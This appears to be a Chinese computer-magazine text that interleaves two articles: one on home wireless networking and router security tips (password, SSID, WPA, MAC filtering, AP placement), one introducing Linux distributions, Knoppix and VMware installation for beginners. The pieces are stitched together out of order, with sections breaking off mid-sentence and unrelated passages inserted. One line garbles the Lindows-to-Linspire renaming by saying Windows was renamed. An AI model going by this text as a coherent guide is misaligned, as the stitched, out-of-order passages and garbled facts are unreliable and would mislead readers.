对于家庭网络而言，无线对等网络无疑是最具性价比的选择。

该无线组网方案的优点是价格便宜。该方案无需购置昂贵的无线宽带路由器或无线AP，只需为每台计算机购置一块无线网卡，即可实现彼此之间的无线连接。如果笔记本内置有迅驰技术，那么，全部投入将只是再为台式机购买一块无线网卡。但这种方案也有缺点，就是也非常依赖代理服务器，而且因为没有无线AP，无线信号覆盖有限。由于无线信号在封闭空间的有效传输距离仅为20~30米，因此，要求计算机之间的距离必须在这个范围之内，不过，这个距离对于家庭而言，已经是绰绰有余了。除了覆盖范围之外，该方案几乎具有代理服务器+无线AP方案的所有优缺点。

## 有无线自由，也要无线安全

由于无线网络是利用无线电波在空中传播，来达到资料的无线传输的，因此跟传统的有线网络相比，别有用心的人如果想要截取无线网络上的资料时，并不需要现身用网线接上你的电脑网络，而只要在你的无线AP涵盖的范围内，隐身外连上你的无线网络，就可以尽情地截取无线网络上传输的资料，所以大家一定要注意无线网的安全问题。

事实上，为确保无线传输安全，不管是无线网络产品还是操作系统，都分别提供了相关的安全功能，来封锁资料可能泄漏的通道，全面保护数据在无线网上传输的安全性。

不过，任何事情总难免两全其美，特别是在网络安全和网络效能方面，因为你启用了无线网络安全的相关功能后，无线网络会在传输资料的同时，多了资料加解密或密钥变动等安全功能，而降低了无线网络最少约30%的传输效能。

假如你非常在意无线网络传输的安全性，那么，就请掌握下面这些关于无线网络的安全策略。我们以Sunny的D-Link DI624+为例说明。

### 第1招 更改预设的管理密码

想要连上无线AP调整各项设定时，都必须输入厂商预设的管理密码，虽然各家的预设管理密码不尽相同，但是为了防范个别别有用心的人通过猜测或查看相关说明书尝试等手段连接上你的无线AP进行各种设置修改，建议你最好在第一次启用无线AP的时候，更改预设的密码。
第一步：通过浏览器连上无线路由的管理界面，按下“Tools”标签。
第二步：在左侧的“Admin”设定项中，即可更改预设的管理密码。

### 第2招 更改预设的SSID名称

同上，厂商预设的SSID也应更改掉，因为它们很容易被黑客掌握从而连接上你的AP并入侵你的网络。在AP管理界面的“Home -> Wireless”处更改默认的SSID即可。

### 第3招 更改预设的无线频道

在无线网络相关设备越来越普遍的情况下，无线AP发生电波干扰的情况也越来越多，虽然有些AP具有自动跳频的功能，但却容易造成连接无线网络不稳定、突然断线的情况，因此，与其让无线AP自动跳频不如自己选择一个干扰少的频道，固定给无线网络传输使用。设定在同上的设定画面中“Channel”处，多次尝试找到比较稳定的频道即可。

### 第4招 关闭SSID广播功能

由于无线网络是靠无线电波传输资料，因此，为了不让他人扫描到你传输的无线数据，你可以关闭无线AP的SSID广播功能，这样一来，虽然自己的电脑在连上无线AP的时候需要输入正确的SSID名称，但是，却能避免不知名的人连接上你的AP。
在AP的管理界面“Advanced -> Performance”处，将“SSID Broadcast”后的“Disabled”勾选即可。

### 第5招 指定无线传输模式

假如你是使用802.11g的无线AP，那么就会有802.11b/g两种无线网络的通讯模式可以使用，但如果你的电脑只用其中一种模式访问无线网络，最好把无线AP设定成相同的模式，而不要多种模式混合使用，这样一来减少其他人连接的可能，二来可以加快传输速度。

### 第6招 启用WEP安全功能

WEP加密功能是无线AP最基本的安全功能，虽然已有破解方法，不过，启用它还是可以让道行不深的小鬼不得其门而入，或让别有用心的人懒得花时间破解，从而保护自己的无线网络安全。

### 第7招 启用WPA安全功能

在WEP加密功能已经被破解，而更安全的802.11i标准又还没有确定的情况下，如果你的无线AP支持WPA，并且你的电脑使用Windows XP SP2，那么就应该选用更安全且具有身份认证的WPA来保护你访问无线网络的安全。
进入无线AP的管理界面在“Home -> Wireless”处将“加密方式”更改为“WPA-PSK”，在下面输入自定的密码，按下“Apply”即可。
同样，想要连接到启用了WPA的无线网络时就必须输入该网络所使用的WPA密钥。

### 小知识

★ WPA和WPA-PSK的不同
用于以ICS或无线路由方式共享Internet连接。如果该客户端未找到无线AP，可以单击“刷新”按钮，自动扫描并发现可以使用的无线网络。
无线网络的资源共享、打印共享和Internet连接共享设置与有线局域网的设置大致相同，此处不复赘述。

# 网络专家流云告诉你

在选择无线AP或无线路由器的位置时，应当注意以下几个方面：

### 1. 位置应当相对较高

无线信号是直线传播的，每遇到一个阻碍物，就会被削弱一部分，尤其是金属物体，更是无线信号杀手。将无线AP置于相对较高位置，可以有效消除无线AP与无线网卡之间的固定的或移动遮挡物，从而保证无线网络的覆盖范围和畅通。

### 2. 尽量居于房间的中央

由于无线AP覆盖范围是一个圆形区域，所以只有将无线AP置于房间中央，才能保障房间内的每个位置都能接收到无线信号，从而有效地接入无线网络。当然，无线网络也能自动调整传输速率，以适应复杂网络环境。离无线AP越近，无线信号越强，抗干扰能力越大，传输速率也就越高。反之，离无线AP越远，无线信号就越弱，抗干扰能力越差，传输速率也就越低。

### 3. 尽量少穿墙壁

不要穿过太多的墙壁，尤其是浇筑的钢筋混凝土墙体。实验表明，在10米的距离，无线信号穿过两堵砖墙后，仍然可以达到标称的最高的传输速率，但穿过一层楼板后，无线信号将损失殆尽。可见，钢筋混凝土墙体会极大地削弱无线信号。因此，如果居室是跃层式结构，建议在每一层楼都单独设置一个无线AP，以保证本楼层内能够覆盖无线信号。另外，如果房间的隔间比较多，那么，应当保证无线AP与无线客户端之间不超过两个墙体。否则，就应当考虑安装多个无线AP，以保证无线信号的强度。

### 4. 避开金属反射物和干扰设备

无线AP应当尽量不要安装在电冰箱等大型金属物体附近，以避免由于电磁反射导致干扰增加，影响无线网络的覆盖范围和通讯速率。另外，也要避免安装在微波炉、无绳电话等微波设备附近，也不要安装在空调等电气设备附近，避免可能产生的电磁干扰，确保无线信号强度。

## 还有什么组网方案

Sunny不愧是玩IT的，一步步很快上手，连接配置参照说明很快完成。除Sunny采用无线路由的连接方式，还有以下三种连接方式，适用于不同的设备和布局需要，大家可以参考看看。

### 1. ADSL路由+无线AP方案

所谓ADSL路由+无线AP方案，是指以ADSL方式接入Internet，ADSL Modem拥有并启用了路由功能，采用无线AP作为集线设备，实现计算机之间的无线通讯，并共享Internet接入。该无线方案的结构如图5。





禁锢在 Windows 横行的世界里，你可能经常会听说 Linux，但包括你在内的大部分人还是只闻其声未见其影。不过，如果你知道 Linux 的软件市场在中国正以每年 43% 的速度激增，未来 5 年中国将需要 120 万会使用和开发 Linux 的人，相信你对它的兴趣就不仅仅是猎奇那么简单了。本期特别话题就将为你打开成为 Linux 人才的大门，虽然只是简单介绍关于 Linux 桌面系统的基础知识和安装应用，但这一小步完全可以让你窥到 Linux 世界的神奇，同时我们也为你准备了许多 Linux 资源，而且最后的 Just do it 还会为你的认真送上一份精美的礼品。

## 打破窗户的企鹅

了。另外，你还可以在 Linux 下使用 VMware 虚拟机软件，在当中安装一个 Windows，这样你就可以在使用 Linux 的同时也在其中运行 Windows 的软件了。

临渊羡鱼，不如退而结网。如果你已经被 Linux 这只小企鹅所吸引，赶紧动手吧，让这只小企鹅在你的计算机中安家。

## 学习 Linux，从认识小企鹅开始

### Linux 身世探秘

Linux 是由芬兰赫尔辛基大学的一个大学生 Linus Torvalds 在 1991 年首次编写的。Linux 是 Linus's Minix 的混合，其中 Linux 是 Linux 创始人 Linus Torvalds (中文译为莱纳斯·托瓦尔兹) 的名字，Minix 是 Andy Tanenbaum 教授所写的很小的 Unix 操作系统，Linus 从 Minix 得到灵感，进一步产生了写一个比 Minix 更好的操作系统的想法，最后产生了 Linux。所以这个混合词的意思可看作 Linus 的 Minix，而 Linux 则是一种类 Unix 系统。

### Linux 家族都有哪些成员

目前，各大 Linux 厂商均把 Linux 分为桌面版（或个人版）和服务器版两大类，其中桌面版 Linux 相当于 Windows 系列中的 Windows 2000 Professional 和 Windows XP，服务器版 Linux 则相当于 Windows 系列中的 Windows 2000 Server 和 Windows 2003 Server。这样看来桌面版和服务器版的区别显而易见，即桌面版面向个人用户，满足个人用户日常办公和娱乐等需求，服务器版用于服务器应用，主要用于网站、数据库等方面。下面主要介绍目前几个主流的桌面版 Linux。

## 用了一辈子 Windows，该换换口味了

曾经，有一个名叫 Linux 的操作系统放在我的面前，我却没有珍惜，直到今天看到它的可爱，我决定，立刻投入它的怀抱！

### Linux 系统，不进 Windows 方便看电影

很多品牌电脑现在都以不开机看电影享受娱乐新感觉作为宣传点，就是将个人电脑作为一种家电理念对家庭用户推广，这其中的亮点就是你可以把个人电脑作为一台普通的 CD、DVD、数码照片工作站或者电视机来使用。打开电脑，只需用遥控器就能像使用 DVD 播放机那样简单地使用它。不进 Windows 也可以用遥控器来看电影，很多厂商都采用了 Linux 作为多媒体影音娱乐系统。Movix (http://movix.sourceforge.net/) 和 GeeXboX (http://www.geexbox.org/) 就是两个优秀的 Linux 多媒体播放系统，能够直接在光盘、闪盘或者移动硬盘上运行，实现不进 Windows 就可以看电影、听音乐，这就是许多品牌机所宣称的不开机看电影的功能。如果你对这两个软件感兴趣，你可以在 http://www.enet.com.cn/A20050221391660_1.html 上找到更多信息。同时，我们杂志在 2003 年第 11 期的《不进 Windows 也能听音乐、看电影》和 2004 年 12 期的《强！多媒体操作系统装进闪盘里》中分别对这两个操作系统进行了介绍。

### PDA、PS2 上也有 Linux 系统

什么，Linux？我怎么没有见过？用途不怎么多吧？周边都是 Windows 呀。不要急着下结论，要注意观察；我们来看看安装 Linux 系统的设备好了。用关键字 “Linux 手机” 在网上搜索一下，搜到的内容不计其数，我们列举一二：“Linux 成手机厂商新宠，成为移动设备核心平台”，“众多开发商抢先研发 Linux 手机，其最终目的是 3G”。

我们再来搜索一下，关键字选为 “Linux 游戏机”，怎么样？内容多得是不是也让你没有想到？就连著名的 Sony PS2 游戏机都是采用 Linux 系统。如果你对于 Sony PS2 游戏机上的 Linux 系统感兴趣，你可访问 http://playstation2-linux.com/，会看到更多的相关信息。

是不是觉得 Linux 的应用很多呀？赶紧跟我们一同进入 Linux 的世界吧！

### 跨平台，开放源代码，为何不用 Linux？

如果说跨平台的软件开发，那么首当其冲要说的就是 Java。如果提到 Java 编程，那就不可能离开 Linux。Linux 往往是 Java 程序员首选的编程和测试环境，更是之后应用的部署环境。Linux 的免费和开放源代码更是程序员对自由编程和学习的追求，全世界的程序员和编程爱好者都在网上 Linux 的不同社区上讨论和学习。此外，在电子商务领域，Linux 更是最佳的部署环境之一，全球最著名的计算机厂商 IBM、Sun 都在大力推广 Linux 的应用。如果你想赶上计算机发展的浪潮，赶紧来和这只小企鹅做朋友吧。

### Windows 能用的软件 Linux 也能用

说了这么多，到了一个陌生的 Linux 系统，Word、QQ 用不成怎么办？难道鱼与熊掌不能兼得？不用担心，这些软件现在都有 Linux 系统中的替代版，甚至可以在 Linux 中直接运行，要不怎么说开源的力量是巨大的呢？已经有人开发了 Linux 的 Office、QQ 甚至现在已经有公司开发 Linux 版的大型 PC 游戏。

### 你知道吗？

Linux 标志——企鹅的来历
1994 年，开发 Linux 的 Linus Torvalds 等人发表 Linux 正式核心 1.0 的时候，大家要他来想一只吉祥物，他突然想到小时候去动物园曾经被一只企鹅追着满地打滚，还被咬了一口。既然想不到其他的吉祥物了，干脆就以一只身着男士无尾半正式晚礼服的可爱小企鹅来当吉祥物。它的原始创作者——美国艺术家 Larry Ewing 表示，欢迎所有想以 Linux 的吉祥物小企鹅 TUX 来当做商标，甚至做商品来卖。



如果无线 AP 所处地方设有 “RADIUS 身份验证服务器”，那么就该使用 WPA 功能，来利用该服务器认证任何想要连上无线网络的人，相反，没有那种服务器就应该使用 WPA-PSK 让无线 AP 在验证所有想要连上无线网络的人。

★关于 802.11i 可以关注 http://www.pconline.com.cn/pc edu/soft/lan/wireless/0402/321809.html

### 第 8 招 启用 MAC 过滤功能

只要是网络设备都会有一个独一无二的 MAC (Media Access Control) 地址，作为网络上传输数据的来往依据，因此，你可以启用无线 AP 里的 “无线网卡 MAC 地址过滤功能”，只让记录在 MAC 地址列表里的你认定的无线设备接入，这样就可以阻挡莫名其妙的人访问你的无线网络。

### 第 9 招 不时扫描无线网络的漏洞

别有用心的人除了用无线网卡等直接连接你的无线网络外，还可能用更高功率的无线 AP 来干扰或者企图连接你的无线网，因此，为了避免这种情况发生，你可以用无线网卡的管理工具或下载 Net Stumber 随时巡查你的无线网络领空。

### 第 10 招 定时查看相关的 LOG 记录

假如你的无线 AP 是 24 小时不停电，那么在长时间面对网络上不明身份的人的刺探之下，除了做好前面所说的安全设置之外，更好定期查看相关的 LOG 记录，才能揪出试图连接你的无线网络的不明连接。

## 更多无线快乐体验

### 爱在哪儿打在哪儿打

无线打印机服务器的安装并不复杂，D-Link DP-G310 只有 3 个插口，一个是电源，一个是连接打印机的 USB 接口，有这两个已经可以工作了，还有一个网线接口是方便你进行初期的配置的。第一次安装用 Hub 连接上你的电脑为好。D-Link 的网络产品配置大同小异，你可以在说明书中看到进入其管理界面的 IP 地址，在浏览器中输入进入其管理界面。无线打印机服务器其实就相当于一台无线 AP，不过它是可以和打印机相连罢了。配置的方法如下：

第一步：进入管理界面，在 “Configuration → Wireless” 处勾选 “Infrastructure”，并输入打印服务器的 SSID。
第二步：在下方的 “WEP Encryption” 栏中，选择 WEP 的密钥长度后输入密钥，按下 “Apply” 完成设定。
第三步：按下 “Network” 选项，勾选 “Automatically Assign”，通过无线路由的 DHCP 服务器自动获得 IP，接着在 “Workgroup” 处输入你的电脑的工作组名称，按下 “Apply” 完成设定。

接下来的操作跟添加一台网络打印机的方法完全一样，这里买了 DP-G310 的朋友就自己 Just do it 一下吧。

### 电脑视频电视随时看

下面说说 D-Link 的 DSM-320，利用它你可以把你电脑上各种视频在电视上播出，就相当于你显卡的 AV 输入无线传输到了电视，免除了连线的麻烦。为了能使用它你必须安装 Windows Media Player10 和它的增强附件 Windows Media Connect，它们都可以在微软的官方网站下载。安装更加简单，插上电源还有红白两根音频线和一根黄色视频线就 OK。配置全部可以在电视上进行，将电视的 TV/AV 转换到 AV 就可以看到配置画面，用 DSM-320 专用的遥控一步步设置即可。Windows Media Connect 方面运行后在 “设备” 选项可以自动搜索无线视频服务器，连接后添加音频视频文件，直接播放即可。

## 有问题请询问专家

流云：无线网用得爽吗？最近有没有出什么问题呀？

Sunny：你还没有跟我说辐射的问题，电脑、手机什么的都有辐射，无线应该更强吧？

流云：哪里！无线网络采用与无线电话相类似的微波方式进行数据的传输，发射功率也就约 60~70 毫瓦，而手机的发射功率都有 200 毫瓦到 1 瓦，手持式对讲机更高达 5 瓦。而且无线网络不像手机直接接触人体，因此非常安全。

Sunny：哦，那还不错，辐射比手机还小，对了，好像觉得屋子里某些地方的信号不太好。

流云：信号不好有下面几种解决办法，你自己尝试吧：
1. 调整无线 AP 或无线路由的位置，确保无线客户端穿透最少的墙壁，而且最多不超过 2 堵墙。并确保无线 AP 和无线客户端附近没有其他干扰设备。
2. 安装无线天线。如果经常需要远距离的通讯 (比如抱着笔记本到楼下花园上网)，建议买个天线，可以增益 3~5 dB，信号会好很多。

Sunny：可以到屋外上网，那就更爽了。我现在编辑部还在用有线网，每次笔记本拿回来又要改配置，怎么办？

流云：你可以试试用多重硬件配置文件。依次打开 “控制面板→系统→硬件→硬件配置文件”，为家里和单位分别创建不同的硬件配置文件，然后，在启动计算机时选择使用相应的配置文件即可。

| 名称 | 简介 | 网址 |
| :--- | :--- | :--- |
| Gnoppix | 并不是非常全面，但是对于Gnome（KDE目前是Linux Live CD中最流行的默认桌面环境）的狂热追随者来说，非常合适。 | http://www.gnoppix.org/ |
| MandrakeMove | 系统还无法达到SuSE系统所实现的硬件检测方面的性能，但是该系统有一个很好的桌面，并且在应用程序绑定方面也做得很好，并且有保持主目录的选项。 | |
| CDlinux | 只有18MB的光盘版Linux，支持很多硬件（PCMCIA、SCSI、USB 等）和多种网络协议。用户可方便地进行定制，并按需要自行添加、删除软件包。CDlinux支持东方语言（CJK），尤其对简体中文提供全面支持，是完善的系统修复光盘。 | http://cdlinux.berlios.de/index-cn.html |
| Fanx | 基于Slackware GNU/Linux，同样具有较强的定制能力。Linuxfans.org的atfa和wjping119以SLAX 4.1.2为基础打造了中文版的Fanx，ISO仅有213MB，功能亦非常强大，非常适合国内用户使用。 | http://www.fanslinux.org/fanx/ |

有人按照自己意愿使用及修改它，而且这只企鹅宝宝还有一个醒目的名字：TUX！据说，命名为TUX（TUX的意思是指男士穿的半正式晚礼服）并不是因为企鹅身上的黑白就像穿了一套晚礼服一样，而是来自一个叫 James Hughes的人的建议，是（T）orvalds （U）ni（X）的缩写，也就是托瓦尔兹Unix的意思，就像Linux是Linus‘s Minix的缩写一样。

## 1. Red Hat Linux Fedora

网址：http://www.redhat.com

2003年11月5日， Fedora Core 1发布， Red Hat公司不再发布免费版的Red Hat Linux， 新版由Fedora计划来开发。 Fedora 计划由 Red Hat 公司赞助，以社团主要支持的方式开发Linux Fedora Core 版本。Red Hat 公司原本开发Red Hat Linux 的工程团队也持续参与这一版本的开发工作，并鼓励更多有兴趣的自由软件使用者参与，以期让这个新的版本成为真正以自由软件开发模式的系统，并能够更趋近于一般大众的需要。此外， Fedora 计划也被 Red Hat 公司视为一个新技术的研究园地，其所开发的各项技术有可能在未来被纳入 Red Hat Enterprise Linux （企业版）中使用。Red Hat Linux Fedora继承了原有Red Hat Linux 的优点，而且继续提高其易用性和实用性，目前最新的版本为 Fedora Core 4。

## 2. 红旗Linux桌面版

网址：http://www.redflag-Linux.com

红旗Linux 桌面版由北京中科红旗软件有限公司开发，是目前最常用也最普及的中文Linux之一。目前，最新的红旗Linux桌面 4.1版在系统安装、硬件设备支持、核心性能、桌面环境设计等方面做了较大的改进，使之更加适用于政府、个人、家庭的办公、学习、娱乐、开发、教育等需求，并在应用集成、在线升级、跨平台软件兼容等方面做了全新的尝试，使软件更加人性化，更加方便用户应用和维护。

## 3. Mandriva Linux

网址：http://www.mandrakelinux.com

Mandriva Linux（原名为 MandrakeLinux）是一款界面非常友好的Linux操作系统，特别适合喜欢精美界面的朋友使用。从一定程度上来说，它是目前Linux操作系统中界面最漂亮的，如果你想在PC 上体验什么是最漂亮的操作系统，那还是体验一下它的魅力吧。Mandriva Linux 完全免费，而且支持包括中、英、日、德、法等许多语言。

## 4. SuSE Linux

网址：http://www.novell.com/Linux/suse

SuSE Linux 号称是可以媲美 Windows 的Linux发行版，它能够让用户有一种“似曾相识”的感觉而迅速掌握操作系统的使用。SuSE Linux Professional 具有的主要优点有：卓越的硬件检测性能；最佳外观的KDEDistro；简单易用的操作界面；特别适用于家庭和小型公司用户；同 Windows 客户端交互操作。SuSE 公司现在已经被 Novell 公司收购，希望归于 Novell 旗下的SuSE能推出更好的Linux版本。

## 5. Linspire

网址：http://www.linspire.com

Lindows 听说过吗？ 它因为极其类似于 Windows，曾经一度引起桌面版 Linux 的轰动。在 Lindows 上，无论是图形界面还是操作习惯，你会发现和 Windows 极其相似。开发 Lindows 的公司曾说，当你使用 Lindows 的时候甚至你会忘记了原来是在使用 Linux， 可见其和 Windows 的相似程度。后来，在与微软的交锋中，Windows 不得不改名为 Linspire，不过其实它们是一样的。如果你想感受Linux的同时享受 Windows 的易用和更加精美的操作界面，那么尝试用用 Linspire 吧。

## 实战Linux安装，让小企鹅在你的PC上安家

## 就这么简单！ 刻张盘就能无痛体验Linux

眼前一抹黑的Linux菜鸟们上来就安装，心里肯定会很忐忑，于是德国程序设计师克劳斯（Klaus Knopper）设计了光盘版的Linux——Knoppix，就像Linux的命名一样，克劳斯把他的姓 Knopper 和 Linux 结合在一起称为“Knoppix”。

而设计这个操作系统的起因也很简单，因为 Linux 在安装上并不像 Windows 那么方便，许多人总喜欢用“Linux 安装不方便、界面不好用”的说辞来打压Linux，于是克劳斯特别把 KDE版的 Linux 改写成光盘版，用户只要把 Knoppix 光盘放入光驱中，启动时更改成从光盘启动，就能使用Linux，省去安装Linux的麻烦，而且不会对主机现有硬盘造成任何影响，也不用担心Linux和Windows不兼容的问题。

### 小知识

什么是Linux Live CD

在网上所有能在光盘中运行的Linux都会有一个统一的称呼Linux Live CD，它是由志愿者开发的可以从光盘上直接运行的Linux操作系统。与常见的Linux套件发行版不同， Linux Live CD不必安装，无需硬盘，只需将光盘插入光驱，并调整 BIOS 从光驱启动即可进入系统进行操作。这种方式免去了Linux发行版安装时的分区之苦，也不用担心安装Linux可能引起现有操作系统崩溃，非常适合初哥、初妹使用。而 Linux Live CD中一般都含有强大的工具和众多的软件，作为高手的启动盘拿来进行系统修复也非常不错。若是用来类比的话， Linux Live CD和 Windows PE+ERD Commander组合非常相似，但功能更为强大。

### Knoppix小档案

软件版本：0812
软件大小：680MB
软件性质：免费软件
适用平台：N/A
下载地址：http://www.linuxfans.org/nuke/modules.php?name=Site_Downloads&op=getinfo&did=2814

第一步：下载后得到 knx36cn.iso 文件，打开 Nero，在主界面中选择“将映像刻录到光盘上”，然后在弹出窗口的“文件类型”中选择“All Files”，找到你下载的光盘映像文件，“打开”便可进行刻录。

第二步：设置 BIOS，将第一启动设备设为光驱，接着放入刚才刻好的 Knoppix光盘，重启电脑后从光盘启动并进入启动画面，直接按回车键进入默认启动方式。

第三步：目前使用宽带的朋友是越来越多，若是使用一些自动获取 IP 地址的宽带，如有线通、部分FTTB等，启动 Knoppix就可上网。但使用 ADSL 等采用 PPPoE拨号方式的宽带就没这么方便了。点击 KNOPPIX 图标，选择“Network/Internet→ADSL/PPPOE Configuration”，配置程序会自动找到机器中的网卡，点击“Yes”进入下一步。程序找到 PPPoE设备，如 ADSL Modem，再次选择“Yes”。一路按下“Yes”，在“Enter Username”窗口删除默认的“username”项，输入你拨号使用的用户名，然后下一步输入密码。选择是否自动获取 DNS，多数情况下选择“Yes”，除非你的网络有特殊要求。有关 MSS 流量限制的，不清楚直接设置为“Yes”。设置完毕，按下“Yes”自动拨号。也可以在 root shell 中输入“pon dsl-provider”拨号，“poff”断开连接，“ifconfig ppp0”查看连接状态。

第四步：大多数朋友第一次进入 Knoppix，会觉得眼睛非常不舒服，并且屏幕也会发生一定错位，向左边或右边偏出。这是由于 Linux 为了保证其图形界面的兼容性，在大多数硬件上都能正常工作，将默认的显示器刷新率设置得过低所致，不过可以通过下面的方法来解决。

如果使用 NVIDIA 芯片的显卡，点击任务栏的 KNOPPIX 图标，选择“Unilities→Install Software（While running from CD）”，打开“Knoppix-Live Installer”，在软件列表中选中“nvidia： nvidia graphics card drivers”，按下“OK”， Knoppix 就会自动下载 NVIDIA 的显卡驱动进行安装，并在安装完成后自动重启 X-Windows 桌面。
所使用的显卡并不是 NVIDIA 显示芯片，也可以到“Knoppix程序菜单→设置→控制中心”的“外设→显示”中进行设置。

第五步：现在你就可以来尝鲜 Linux 了，快来听听歌，看看电影吧。

### 小提示

想用好 Knoppix，请看这些网络教程

★ Knoppix完全使用攻略：http://www.thinkjam.org/zoptuno/archives/2004/12/eeclinux_live_c_1.html
非常棒的安装和使用教程。
★ 将 Knoppix 拽入硬盘：http://www.thinkjam.org/zoptuno/archives/2004/12/aeecknoppixkno.html
如果不想刻盘而是直接将 Knoppix装入硬盘，这篇教程值得关注。
★ 官方中文教程：http://www.maxidea.org/project/maxcapture/doc/conquer_your_desktop.doc
官方提供的全面教程，有17页之多，建议在遇到具体问题时参考。

## 菜鸟的安全尝试——VMware帮你

## Windows上安装Linux

1999年，一款名为 Xteam Linux 的中文版Linux 在国内发行，当时还在上高中的我迫不及待地跑到软件店，拿出自己攒了几个月的零花钱，买下当时想都不敢想的仅仅标价几十块钱的正版操作系统。安装Linux以后，突然发现自己原有的硬盘分区全被这个家伙占用了，我原有硬盘中的文件于是在我一时兴起中完全丢失。所以自那以后的很长一段时间，提到Linux我就想起那些丢掉的文件。

上面我的经历充分地说明了对于一个新手来说，安装Linux对于你的硬盘数据是有一定风险的，你可能会在糊里糊涂中莫名其妙地用Linux 的安装程序对你的硬盘重新分区。不过你也不用担心，因为现在我们有了VMware，它能帮助我们在Windows下安装一个Linux，不会造成任何原有硬盘文件的损坏和丢失，也能让新手们轻而易举地在Windows下熟悉Linux的操作。

第一步：从http://www.vmware.com下载VMware Workstation之后按照提示安装。

第二步：运行 VMware，在欢迎界面（“Home”标签下）点击“New Virtual Machine”创建一个新的虚拟机（即创建一个用来运行Linux的虚拟的计算机）。在弹出的向导中按照提示操作即可。需要注意的是，在选择安装Linux版本的时候，如果你找不到你所要安装的Linux版本，你可以选择“Other Linux”。

第三步：建立好虚拟机以后，单击菜单“VM→Setting”，在弹出的硬件设置窗口中选择“CD-ROM”，按照如图所示进行设置。这里你可以不必刻录光盘而直接使用下载的 Linux 安装光盘的 ISO 文件进行安装（相当于实现了虚拟光驱的作用，见图 1）。



第四步：选择你建立虚拟机的标签，如：“Other Linux 2.4.x kernel”，点击 “Start this Virtual machine” 即可启动虚拟机。

第五步：默认情况下虚拟机会自动把你刚才设置的 ISO 文件当作启动光盘进行引导安装，这样你就可以轻松地在 Windows 下安装一个 Linux 了。在安装好 Linux 之后，你需要安装虚拟机的工具软件来驱动某些硬件，以使虚拟机上操作系统的运行速度更快，点击 “VM→Install VMware tools” 即可按照提示在 Linux 系统下安装工具软件。

你知道吗？
虚拟机（有时也叫模拟器）是一种计算机应用软件，通过它可以使某个硬件平台上的程序运行在其他平台上，包括使用软件模拟出硬件来，所以你可以使用虚拟机来在 Windows 平台上安装和运行 Linux 及其他操作系统。这时对于安装在虚拟机上的操作系统来说，虚拟机就是实实在在的一台计算机（实际上是由软件模拟的）。
常见的虚拟机有 VMware Workstation 和 Virtual PC。另外，现在有一款小巧的、免费的、跨平台的虚拟机 QEMU 也可以供你使用，你可以从 http://fabrice.bellard.free.fr/qemu 下载。而且还有高手专门用 QEMU 制作了一套可以在 Windows 下使用的 Linux 版本，大家可以到 http://www.metropipe.net/Products/PVMPDownload.shtml 下载，只有 80 多兆，直接运行你就可以进入 Linux 的桌面系统。看看电脑爱好者 2004 第 21 期《巧用 VMwarer 电脑分身有术》会对你使用虚拟机很有帮助。

## 真枪实弹 和Linux亲密接触

## 1. 安装 Linux 开始前的准备工作

-   （1） 安装前先看自己的硬件。在安装 Linux 前你需要做一些必要的准备工作，最重要的莫过于准备好电脑各个配件的驱动程序了，你可以在 Windows 的“设备管理器”中查看各硬件的型号（如显卡是 Geforce MX440）及信息（如显存大小是 64MB），你还可以在 Linux 发行网站上查看到你所使用的硬件产品是否被该版本的 Linux 支持，比如 Red Hat Linux 的网页 http://bugzilla.redhat.com/hwcert 中就可以找到相关的信息。当然现在的 Linux 很多时候已经像 Windows XP 那样智能和方便了，在安装好系统之后，如果你的硬件是主流硬件，那么系统会自动帮你安装好硬件的驱动程序，不需要再手动安装。但是，即使这样还是有部分的驱动程序需要我们手动安装，所以确定电脑中的声卡显示卡等硬件就成为我们在安装 Linux 之前的必备工作。Windows 下的一款名为 HWINFO32 的软件就能满足你检测硬件的需要（见图 2）。
    第一步：从“http://nj.onlinedown.net/soft/4592.htm”下载 HWINFO32 软件并安装，安装以后你还需要在“开始→HWINFO32”中运行 HWINFO32 Driver Tool 安装软件驱动。
    第二步：在“开始→程序→HWINFO32”中运行 HWINFO32 Program，检测硬件设置，找到不明硬件的型号。
    第三步：到驱动之家（http://www.mydrivers.com）或者硬件厂商网站下载相应型号的 Linux 驱动程序。

-   （2） 准备好光盘开始安装 Linux 了吗？先等一等，首先确认一下磁盘空间是否足够完成安装。如果是单纯安装 Linux：个人桌面安装包括图形化桌面环境，至少需要 1.7GB 空闲空间。若兼选 GNOME 和 KDE 桌面环境（它们是 Linux 不同方式和样式的桌面管理界面），则至少需要 1.8GB 的空闲空间。对于红旗 Linux 桌面 4.1，如果磁盘空间小于 2GB，安装程序会提示你磁盘空间不足。如果想让 Linux 与 Microsoft Windows 共同安装在一台电脑中，也要首先确定硬盘是否容得下这两个庞然大物。

-   （3） 如果还没有装任何系统，请首先安装 Windows，然后再安装 Linux，这样 Linux 会自动将 Windows 选项添加进启动时的操作系统选择菜单当中，方便你在打开电脑后选择进入 Windows 还是 Linux。

-   （4） 需要注意的是：如果想让 Linux 能方便地访问 Windows 的磁盘分区，最好把 Windows 分区的文件系统类型设置为 FAT 或 FAT32，而不是 NTFS。如果想让 Linux 访问 Windows 系统的 NTFS 分区，你可以参考 http://www.freezg.com/os/linux/2005/04/1515164441.html 上面的文章。

特别关注：如果硬盘上有重要数据，请不要在这台电脑上进行你不熟悉的 Linux 系统安装。如果还是想在这台电脑上尝试使用 Linux，建议使用 VMware 在 Windows 上安装 Linux。

-   （5） 如果需要调整磁盘空间大小，DOS 和 Windows 下可以使用大家熟悉的第三方软件 Partition Magic。另外，在 Linux 平台下也有一个易用方便的软件：parted。关于使用 Parted 进行分区修改大小，删除建立的方法读者可以参考：http://www.Linuxbyte.net/LinuxDoc/rhl-ig-x86-zh_CN-9/s1-x86-dualboot-parted.html。

Linux 安装程序通常会检测到 Windows 并自动配置引导装载程序（GRUB 或 LILO）来引导 Linux 或 Windows。这就相当于你在安装了 Windows 98 和 Windows XP 双系统上看到的系统引导菜单功能。LILO 独立于任何操作系统，也就是说即使不安装 Linux 操作系统，用户仍可以在其他系统环境下使用 LILO，完成不同操作系统的启动任务。关于 LILO 的使用，有兴趣的读者可以参考：http://www.Linuxdby.com/articlesdisplay.php?newsid=84。

### 小知识

LILO：它是 Linux 默认的引导程序（Linux loader），用来将 Linux 载入到内存的 Bootstrap Loader（引导载入程序），它同时也是启动管理器。

## 2. 深吸一口汽，开始安装 Linux 了

-   “听说 Linux 的安装是很难搞定的”，“安装时还要选择不同的分区，太难了”。其实有相当一部分评说 Linux 安装的朋友也同样没有安装过其他的操作系统。红旗 Linux 桌面版的安装是否如同想象中的那么难呢？绝对不是，我们现在就可以开始安装之旅了。
